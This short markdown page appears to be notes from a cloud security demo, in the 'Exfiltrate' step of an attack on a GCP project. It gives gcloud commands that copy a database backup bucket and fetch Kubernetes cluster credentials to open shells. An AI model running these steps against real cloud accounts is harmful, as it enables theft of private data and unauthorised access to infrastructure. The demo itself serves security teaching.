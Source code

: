 # Exfiltrate 
Now that we have some access, we can exfiltrate data.

## The database backup bucket
We saw, that there is a database backup in a Storage.
That storage can be downloaded - even though it has disabled public access.

```bash
mkdir -p /root/demotalk/exfiltrate
cd /root/demotalk/exfiltrate

gcloud storage cp -r gs://conduit-database-backup-test/ .
```

## Connect to Kubernetes
Let's access K8s and then start some shells

```bash
gcloud container clusters get-credentials --region=europe-west3 conduit-k8s-test

octant
```